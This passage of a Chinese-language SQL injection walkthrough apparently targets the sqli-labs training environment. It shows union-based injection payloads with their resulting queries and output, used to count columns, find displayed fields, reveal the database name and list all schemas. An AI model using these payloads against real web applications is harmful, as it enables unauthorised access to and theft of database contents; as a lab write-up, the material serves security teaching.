 ```sql
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 4;
			-- Unknown column '4' in 'order clause'
```

利用`SELECT 1,2,3`建一张列数同样为3的新表，使用`UNION`语句爆字段与列序的关系。虽然注释了`LIMIT`，但是前端始终只显示一条记录，因此我们还要在`WHERE`中设置一个自相矛盾的条件，来把正常的那条记录给干掉，只留下我们的创建的新表：

```sql
id=1' union select 1,2,3 -- 
=> SELECT * FROM users WHERE id='1' union select 1,2,3 -- ' LIMIT 0,1
			+----+----------+----------+
			| id | ???????? | ???????? |
			+----+----------+----------+
			|  1 | Dumb     | Dumb     |
			|  1 | 2        | 3        |
			+----+----------+----------+
			-- Login name: Dumb		Password: Dumb
id=2' and 1=2 union select 1,2,3 -- 
=> SELECT * FROM users WHERE id='2' and 1=2 union select 1,2,3 -- ' LIMIT 0,1
			+----+----------+----------+
			| id | ???????? | ???????? |
			+----+----------+----------+
			|  1 | 2        | 3        |
			+----+----------+----------+
			-- Login name: 2		Password: 3
			可知第二列与用户名相关,第三列与密码相关
```

用`database()`函数爆当前SQL语句执行的数据库名：

```sql
id=1' AND 1=2 UNION SELECT 1,DATABASE(),3 --+
=> SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,DATABASE(),3 -- ' LIMIT 0,1
			-- Login name: security	Password: 3
			可知当前数据库名为security
```

用`information_schema`数据库中的`schemata`表爆所有数据库名，果然存在之前爆出的`security`：

```sql
id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 -- 
=> SELECT * FROM users WHERE id='1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 -- ' LIMIT 0,1
			+----+----------------------------------------------------------------------+----------+
			| id | ????????                                                             | ???????? |
			+----+----------------------------------------------------------------------+----------+
			|  1 | information_schema,challenges,mysql,performance_schema,security,test | 3        |
			+----+----------------------------------------------------------------------+----------+
			-- Login name: information_schema,challenges,mysql,performance_schema,security,test		Password: 
```
